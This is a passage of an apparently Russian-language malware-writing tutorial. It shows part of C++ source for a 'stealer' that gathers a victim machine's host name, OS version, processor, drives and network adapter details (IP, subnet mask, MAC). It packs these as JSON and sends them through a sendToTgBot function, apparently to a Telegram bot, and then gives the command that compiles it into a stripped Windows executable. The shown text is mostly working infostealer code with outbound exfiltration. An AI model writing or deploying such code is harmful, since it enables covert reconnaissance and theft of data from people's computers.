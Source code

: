 ```cpp
    hostName,
    osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
    sysInfo.wProcessorArchitecture,
    sysInfo.dwNumberOfProcessors,
    drives);

  // Add IP address information
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
    snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
    "Adapter Name: %s\n"
    "IP Address: %s\n"
    "Subnet Mask: %s\n"
    "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n\n",
    adapter->AdapterName,
    adapter->IpAddressList.IpAddress.String,
    adapter->IpAddressList.IpMask.String,
    adapter->Address[0], adapter->Address[1], adapter->Address[2],
    adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }
  
  char info[8196];
  snprintf(info, sizeof(info), "{\"text\":\"%s\"}", systemInfo);
  int result = sendToTgBot(info);

  if (result == 0) {
    printf("ok =^..^=\n");
  } else {
    printf("nok <3()~\n");
  }

  return 0;
}
```

### демонстрация

Давайте проверим всё в действии.     

Компилируем наш "стилер" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -liphlpapi -lwinhttp
```

